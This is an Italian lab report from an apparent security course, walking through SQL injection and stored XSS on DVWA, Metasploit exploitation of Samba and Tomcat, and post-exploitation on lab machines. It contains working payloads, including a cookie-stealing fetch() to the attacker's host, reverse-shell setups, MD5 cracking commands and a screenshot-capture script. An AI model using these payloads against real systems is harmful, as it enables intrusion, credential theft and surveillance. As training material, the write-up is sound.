

# 🌐 S8 Build Week 2: **REPORT OPERATIVO – CYBERCERBERUS**

- ## Portami alla [CTF1](./CTF1.MD)
- ## Portami alla [CTF2](./CTF2.MD)
- ## Portami alla [CTF3](./CTF3.MD)
- [TRACCIA GIORNO 1: SQL Injection su DVWA](#-traccia-giorno-1-sql-injection-su-dvwa-low-e-medium)
- [TRACCIA GIORNO 2: Exploit XSS Persistente su DVWA](#-traccia-giorno-2-exploit-xss-persistente-su-dvwa-low-e-medium)
- [TRACCIA GIORNO 3: SQL Injection su DVWA](#-traccia-giorno-1-sql-injection-su-dvwa-low-e-medium)
- [TRACCIA GIORNO 4: SQL Injection su DVWA](#-traccia-giorno-1-sql-injection-su-dvwa-low-e-medium)
- [TRACCIA GIORNO 5: SQL Injection su DVWA](#-traccia-giorno-1-sql-injection-su-dvwa-low-e-medium)

---
---

# 🛠 **TRACCIA GIORNO 1: SQL Injection su DVWA (Low e Medium)**

Questa guida fornisce istruzioni passo-passo per eseguire una SQL Injection sulla piattaforma **DVWA (Damn Vulnerable Web Application)**. L'obiettivo è estrarre i dati sensibili dell'utente **Pablo** in modalità **Low** e **Medium**, e decifrare la sua password hash **MD5**.

## **Requisiti**

1. **DVWA Configurato**: Assicurati che la piattaforma DVWA sia correttamente installata e configurata.
2. **Accesso a un Browser o Terminale** per inviare richieste SQL Injection.
3. **Livelli di Sicurezza** configurati in DVWA:
   - **Low** per la prima parte.
   - **Medium** per la seconda parte.

## 🔍 **Parte 1: SQL Injection in Modalità Low**

### 🎯 **Obiettivo**
Estrarre i dati dell'utente **Pablo**, inclusa la sua password hash MD5.


### 📝 **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati dell'utente Pablo**:
   Inserisci il seguente payload nel campo **User ID**:
   ```sql
   ' UNION SELECT user, password FROM dvwa.users WHERE user='Pablo' -- 
   ```

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - L'hash `0d107d09f5bbe40cade3de5c71e9e9b7` corrisponde alla password `letmein`.
   - Puoi utilizzare uno strumento online come [https://crackstation.net](https://crackstation.net) per decifrare l'hash.


## 🔍 **Parte 2: SQL Injection in Modalità Medium**

### 🎯 **Obiettivo**
Superare i controlli di filtraggio e ottenere i dati di Pablo utilizzando payload in formato hexadecimal.


### 📝 **Passaggi**

1. **Vai alla pagina di SQL Injection**:
   - URL: `http://<IP_DVWA>/dvwa/vulnerabilities/sqli/`

2. **Trova i dati di Pablo**:
   Usa il seguente payload nel campo **User ID**:
   ```sql
   0x27 UNION SELECT user, password FROM dvwa.users WHERE user=0x5061626c6f -- 
   ```


   - `0x27` è il formato hexadecimal per l'apostrofo (`'`).
   - `0x5061626c6f` è il formato hexadecimal per `Pablo`.

3. **Risultati attesi**:
   - Nome utente: `Pablo`
   - Password hash: `0d107d09f5bbe40cade3de5c71e9e9b7`

4. **Decifra la password hash**:
   - Decifra l'hash `0d107d09f5bbe40cade3de5c71e9e9b7` utilizzando uno strumento come [Crackstation](https://crackstation.net) per ottenere la password: `letmein`.


## 🛠 **Strumenti Utili**

1. **Siti per decifrare hash MD5**:
   - [Crackstation](https://crackstation.net)
   - [MD5 Decrypt](https://md5decrypt.net)

2. **Tool di cracking**:
   - **Hashcat**:
     ```bash
     hashcat -a 0 -m 0 hash.txt wordlist.txt
     ```
   - **John the Ripper**:
     ```bash
     john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
     ```


## **Conclusione**

Seguendo questa guida, abbiamo dimostrato come eseguire una SQL Injection su DVWA per estrarre i dati dell'utente **Pablo** e decifrare la sua password MD5 `letmein`. Questi test sottolineano l'importanza di proteggere le applicazioni web da vulnerabilità di SQL Injection.

---
---

# 🛡 **TRACCIA GIORNO 2: Exploit XSS Persistente su DVWA (Low e Medium)**

Questa guida illustra come sfruttare una vulnerabilità di **Cross-Site Scripting (XSS) Persistente** sulla piattaforma **DVWA (Damn Vulnerable Web Application)** in modalità **Low** e **Medium**. L'obiettivo è simulare il furto di cookie di sessione inviandoli a un server sotto il nostro controllo.

## **Requisiti**

1. **DVWA Installato** e configurato.
2. **Livelli di Sicurezza** impostati su **Low** e **Medium**.
3. **Server di Ascolto** su Kali Linux configurato per ricevere i cookie sulla porta **4444**.
4. Indirizzi IP:
   - **Kali Linux**: `192.168.50.165`
   - **Metasploitable**: `192.168.50.3`

## 🔍 **Parte 1: XSS Persistente in Modalità Low**

### 🎯 **Obiettivo**
Iniettare uno script malevolo nella web application DVWA per inviare i cookie della sessione al nostro server di ascolto.

### 📝 **Passaggi**

1. **Configura il Server di Ascolto su Kali Linux**:
   - Avvia Netcat per ricevere i cookie sulla porta 4444:
     ```bash
     nc -lvnp 4444
     ```

2. **Accedi a DVWA**:
   - Vai alla sezione **XSS Persistente**:
     ```
     http://192.168.50.3/dvwa/vulnerabilities/xss_r/
     ```

3. **Inserisci il Payload**:
   Usa il seguente script JavaScript nel campo vulnerabile (esempio: un campo commento):
   ```html
   <script>
     fetch('http://192.168.50.165:4444', {
       method: 'POST',
       body: document.cookie
     });
   </script>
   ```

4. **Esegui il Payload**:
   - Invia il payload premendo **Submit**.
   - Ogni volta che la pagina viene caricata, lo script invierà i cookie della sessione al server di ascolto.

5. **Verifica i Cookie su Kali Linux**:
   - Sul terminale di Kali Linux, dovresti vedere i cookie della sessione, ad esempio:
     ```
     PHPSESSID=abcdef1234567890; security=low
     ```


## 🔍 **Parte 2: XSS Persistente in Modalità Medium**

### 🎯 **Obiettivo**
Aggirare i filtri di input e sfruttare la vulnerabilità XSS per ottenere i cookie della sessione.

### 📝 **Passaggi**

1. **Configura il Server di Ascolto su Kali Linux**:
   - Utilizza lo stesso comando di Netcat:
     ```bash
     nc -lvnp 4444
     ```

2. **Accedi a DVWA**:
   - Vai alla sezione **XSS Persistente**:
     ```
     http://192.168.50.3/dvwa/vulnerabilities/xss_r/
     ```

3. **Inserisci il Payload Alternativo**:
   Poiché `<script>` potrebbe essere filtrato, utilizza il seguente payload:
   ```html
   
   ```

4. **Esegui il Payload**:
   - Invia il payload premendo **Submit**.
   - Ogni volta che un utente carica la pagina, l'evento `onerror` si attiverà e invierà i cookie al server di ascolto.

5. **Verifica i Cookie su Kali Linux**:
   - Controlla il terminale e verifica i cookie ricevuti:
     ```
     PHPSESSID=abcdef1234567890; security=medium
     ```



## 📌 **Spiegazione dei Payload**

### **Payload in Modalità Low**
- `<script>`: Inietta uno script JavaScript nella pagina vulnerabile.
- `document.cookie`: Recupera i cookie della sessione della vittima.
- `fetch`: Invia i cookie al server dell'attaccante tramite una richiesta HTTP POST.

### **Payload in Modalità Medium**
- ``: Un'immagine che non esiste attiva l'evento `onerror`.
- `onerror`: Contiene lo script malevolo per inviare i cookie.
- `fetch`: Come sopra, invia i cookie al server.

## 🛡 **Considerazioni di Sicurezza**

Per proteggere le applicazioni da attacchi XSS:

1. **Sanitizzazione dell'Input**:
   - Filtra e valida tutti i dati forniti dagli utenti per evitare l'iniezione di codice malevolo.
2. **Cookie HTTPOnly**:
   - Imposta i cookie di sessione come **HTTPOnly** per impedire l'accesso tramite JavaScript.
3. **Content Security Policy (CSP)**:
   - Configura una CSP per limitare l'esecuzione di script non autorizzati.

## 🚀 **Conclusione**

Abbiamo dimostrato come sfruttare vulnerabilità di **SQL Injection** e **XSS Persistente** su DVWA per estrarre dati sensibili e rubare cookie di sessione. Questa guida sottolinea l'importanza di implementare misure di sicurezza per prevenire tali attacchi.

---
---

# 🛠 TRACCIA GIORNO 3: Programma in C

## 📜 Triggerare un Segmentation Fault: Spiegazione e Logica 💻

In questo progetto, abbiamo esplorato come **forzare un segmentation fault** in un programma C, partendo da un programma originale funzionale. Abbiamo aggiunto modifiche per simulare errori critici e comprenderne le cause.

### 💻 Il programma originale

Il programma originale in linguaggio C permette di eseguire queste operazioni:

1️⃣ **Inserire 10 numeri interi**:  
   L'utente inserisce 10 numeri che vengono salvati in un array chiamato `vector`.

2️⃣ **Visualizzare i numeri inseriti**:  
   Dopo l'inserimento, il programma mostra i numeri forniti dall'utente.

3️⃣ **Ordinare i numeri**:  
   I numeri vengono ordinati in ordine crescente con un algoritmo chiamato Bubble Sort.

4️⃣ **Visualizzare i numeri ordinati**:  
   Alla fine, il programma mostra i numeri in ordine crescente.

### 📝 Come funziona?

- **🛠️ Crea uno spazio (array)** per 10 numeri.
- **🎤 Chiede all'utente** di inserire 10 numeri.
- **👀 Mostra i numeri** inseriti.
- **🔄 Li ordina** dal più piccolo al più grande.
- **✅ Mostra i numeri ordinati.**

**Esempio di risultato originale:**

```
Inserire 10 numeri interi:
[1]: 5
[2]: 3
[3]: 7
[4]: 9
[5]: 2
[6]: 8
[7]: 4
[8]: 1
[9]: 6
[10]: 10

Il vettore inserito è:
[1]: 5
[2]: 3
[3]: 7
...

Il vettore ordinato è:
[1]: 1
[2]: 2
[3]: 3
...
```

## ✨ Modifiche apportate al programma

Abbiamo aggiunto una nuova modalità al programma per simulare errori:

### **1️⃣ Modalità classica**
Il programma funziona come descritto sopra: inserisci 10 numeri, li ordina e li mostra.

### **2️⃣ Modalità con errore simulato**
La modalità con errore provoca intenzionalmente un segmentation fault accedendo a memoria non valida. Questa modifica serve a comprendere meglio come si verificano gli errori di accesso alla memoria.

#### **Come abbiamo simulato il segmentation fault?**

1. **Accesso a un puntatore nullo**:  
   Un puntatore nullo (`NULL`) è stato dereferenziato, generando un segmentation fault:
   ```c
   int *ptr = NULL;
   printf("Valore in *ptr: %d\n", *ptr);
   ```

2. **Accesso a memoria non allocata**:  
   Modificando un puntatore per puntare a un indirizzo arbitrario:
   ```c
   ptr = (int *)0xDEADBEEF;
   printf("Valore in *ptr: %d\n", *ptr);
   ```

Questi scenari garantiscono che il programma termini con un segmentation fault.

## 🧪 Risultati attesi

### **Modalità classica**
```
Inserire 10 numeri interi:
[1]: 1
[2]: 2
[3]: 3
...
Il vettore inserito è:
[1]: 1
[2]: 2
...
Il vettore ordinato è:
[1]: 1
[2]: 2
...
```

### **Modalità con errore**
```
Tentativo di accesso a un puntatore nullo:
Segmentation fault (core dumped)
```

## 🔑 Logica dietro il segmentation fault

1. **Il sistema operativo protegge la memoria**:  
   Solo le aree allocate possono essere utilizzate dal programma.
   
2. **Accesso non valido**:  
   Tentare di accedere a memoria non allocata provoca il fault.

3. **Puntatori errati**:  
   Puntatori non inizializzati o modificati sono una delle cause principali.

## ⚠️ Conclusioni
Con queste modifiche, il programma dimostra sia il funzionamento corretto che un errore simulato. Questo progetto aiuta a comprendere meglio i concetti di sicurezza e debugging nei programmi C. 🎯

---
---

# 🛡️ TRACCIA GIORNO 4: Sfruttamento di Vulnerabilità sulla Macchina Metasploitable

## 📋 Descrizione
Sulla macchina **Metasploitable** sono stati individuati diversi servizi in ascolto potenzialmente vulnerabili. Lo scopo di questa traccia è:
1. 🖥️ Effettuare una scansione delle vulnerabilità con **Nessus**.
2. ⚙️ Sfruttare la vulnerabilità del servizio Samba attivo sulla porta **445 TCP** utilizzando **Metasploit**.
3. ✅ Verificare l'accesso alla macchina compromessa eseguendo il comando `ifconfig` per ottenere l'indirizzo IP della macchina vittima.

## 🔧 Requisiti
- **IP Kali Linux**: `192.168.50.165`
- **IP Metasploitable**: `192.168.50.3`
- **Porta di ascolto del payload**: `5555`
- **Tool utilizzati**: Nessus, MSFConsole (Metasploit)

## 🛠️ Passaggi Eseguiti

### 1. 🔍 Scansione delle Vulnerabilità con Nessus
1. **Avvio del servizio Nessus**:
   ```bash
   sudo systemctl start nessusd
   ```
2. **Accesso all'interfaccia web**:
   - URL: `https://localhost:8834`.
   - Completata la configurazione iniziale e aggiornato Nessus.
3. **Creazione della scansione**:
   - Tipo: **Basic Network Scan**.
   - Target: `192.168.50.3` (IP di Metasploitable).
4. **Esecuzione dello scan**:
   - La scansione ha identificato una vulnerabilità critica sul servizio Samba in ascolto sulla porta **445 TCP**.
5. **Report allegato**:
   - I dettagli della scansione sono disponibili nel file `nessus_scan_report.html`.

### 2. 💻 Attacco alla Macchina Metasploitable con Metasploit
1. **Avvio di MSFConsole**:
   ```bash
   msfconsole
   ```
2. **Ricerca dell'exploit appropriato**:
   - Comando:
     ```bash
     search samba
     ```
   - Trovato: **exploit/multi/samba/usermap_script** (indice: 15).
   - 
3. **Selezione dell'exploit**:
   - Comando:
     ```bash
     use 15
     ```
   - 
4. **Configurazione dei parametri dell'exploit**:
   - Impostazione dell'IP della macchina vittima:
     ```bash
     set RHOSTS 192.168.50.3
     ```
   - Impostazione della porta del servizio Samba:
     ```bash
     set RPORT 445
     ```
   - Configurazione del payload:
     ```bash
     set payload cmd/unix/reverse
     ```
   - Impostazione dell'IP e della porta di ascolto di Kali Linux:
     ```bash
     set LHOST 192.168.50.165
     set LPORT 5555
     ```
5. **Esecuzione dell'exploit**:
   - Comando:
     ```bash
     exploit
     ```
   - L'exploit ha avuto successo, fornendo una shell sulla macchina vittima.
   - 

---

### 3. 📡 Verifica dell'Accesso alla Macchina Compromessa
1. **Comando eseguito**:
   Una volta ottenuta la shell sulla macchina Metasploitable, è stato eseguito il comando:
   ```bash
   ifconfig
   ```
2. **Risultato**:
   - Confermato l'indirizzo IP della macchina vittima: `192.168.50.3`.

## ✅ Conclusioni
- 🔎 Il **Vulnerability Scanning** ha evidenziato una vulnerabilità critica nel servizio Samba sulla porta **445 TCP**.
- 💥 La vulnerabilità è stata sfruttata con successo utilizzando l'exploit **exploit/multi/samba/usermap_script** di Metasploit.
- 🖥️ È stato ottenuto accesso alla macchina compromessa e confermato l'indirizzo IP tramite il comando `ifconfig`.

---
---

# 🛡️ TRACCIA GIORNO 5: Exploit di Windows 10 con Metasploit

## 📋 Descrizione
Sulla macchina **Windows 10** ci sono servizi che possono essere sfruttati per ottenere una sessione Meterpreter. L'obiettivo di questa traccia è:
1. Avviare i servizi richiesti sulla macchina target.
2. Effettuare una scansione delle vulnerabilità con **Nessus**.
3. Utilizzare Metasploit per exploitare il servizio **Tomcat**.
4. Confermare l'accesso alla macchina compromessa e raccogliere evidenze:
   - Verificare se è una macchina virtuale o fisica.
   - Recuperare le impostazioni di rete.
   - Controllare la presenza di webcam.
   - Catturare uno screenshot del desktop.

## 🔧 Requisiti
- **IP Kali Linux**: `192.168.50.165`
- **IP Windows 10**: `192.168.50.3`
- **Porta di ascolto (LPORT)**: `7777`
- **Tool utilizzati**: Nessus, MSFConsole, PowerShell

## 🛠️ Passaggi Eseguiti

### **1. Preparazione dei Servizi su Windows 10**
1. Accedere alla macchina target **Windows 10** (`192.168.50.3`).
2. Aprire `Gestione Servizi` (`services.msc`).
3. Avviare il servizio **Apache Tomcat** (se non è già attivo).
4. Verificare che il servizio sia in ascolto sulla porta **8080**.

### **2. Scansione delle Vulnerabilità con Nessus**
1. Avviare il servizio Nessus su Kali Linux:
   ```bash
   sudo systemctl start nessusd
   ```
2. Accedere all'interfaccia Nessus tramite il browser: `https://localhost:8834`.
3. Creare una nuova scansione:
   - Tipo: **Basic Network Scan**.
   - Target: `192.168.50.3`.
4. Avviare la scansione e identificare le vulnerabilità relative al servizio **Tomcat**.

### **3. Exploit con Metasploit**

#### **3.1 Configurazione dell'Exploit**
1. Avviare Metasploit su Kali Linux:
   ```bash
   msfconsole
   ```
2. Cercare gli exploit disponibili per Tomcat:
   ```bash
   search tomcat
   ```
3. Selezionare l'exploit **Tomcat Manager Upload**:
   ```bash
   use exploit/multi/http/tomcat_mgr_upload
   ```
4. Configurare i parametri dell'exploit:
   - Impostare l'IP della macchina target:
     ```bash
     set RHOSTS 192.168.50.3
     set RPORT 8080
     ```
   - Configurare le credenziali di Tomcat:
     ```bash
     set HttpUsername admin
     set HttpPassword password
     ```
   - Configurare il payload per la sessione Meterpreter:
     ```bash
     set payload java/meterpreter/reverse_tcp
     set LHOST 192.168.50.165
     set LPORT 7777
     ```
5. Lanciare l'exploit:
   ```bash
   exploit
   ```

### **4. Raccolta delle Evidenze sulla Macchina Compromessa**

#### **4.1 Verifica se la macchina è virtuale o fisica**
1. Eseguire il comando:
   ```bash
   sysinfo
   ```
   - Controllare le informazioni di sistema per riferimenti a VMware, VirtualBox, o altri hypervisor.
2. Per ulteriori verifiche, accedere alla shell:
   ```bash
   shell
   ```
   Eseguire:
   ```cmd
   systeminfo
   ```


#### **4.2 Recupero delle impostazioni di rete**
1. Tornare a Meterpreter ed eseguire:
   ```bash
   ipconfig
   ```
   - Annotare le configurazioni di rete.


#### **4.3 Controllo delle webcam**
1. Questo comando non è supportato dalla sessione `java/meterpreter`. Per verificare, utilizzare la shell di Windows:
   ```cmd
   wmic path win32_pnpentity get name | findstr /i "camera"
   ```


#### **4.4 Cattura di uno screenshot**
1. Aprire **PowerShell** dalla shell di Windows:
   ```cmd
   powershell
   ```
2. Eseguire lo script per salvare uno screenshot:
   ```powershell
   Add-Type -AssemblyName System.Windows.Forms; Add-Type -AssemblyName System.Drawing; $bmp = New-Object Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height); $graphics = [Drawing.Graphics]::FromImage($bmp); $graphics.CopyFromScreen(0, 0, 0, 0, $bmp.Size); $bmp.Save('C:\Windows\Temp\screenshot.png'); $bmp.Dispose(); $graphics.Dispose()
   ```
3. Tornare a Meterpreter e scaricare lo screenshot:
   ```bash
   download C:\Windows\Temp\screenshot.png
   ```

## 🛠️ Conclusioni
- Il servizio **Apache Tomcat** è stato sfruttato con successo per ottenere una sessione Meterpreter.
- Sono state raccolte evidenze riguardo alla macchina target:
  - Tipo di macchina (virtuale o fisica).
  - Configurazioni di rete.
  - Stato delle webcam.
  - Screenshot del desktop.

---
# FINE DOCUMENTO
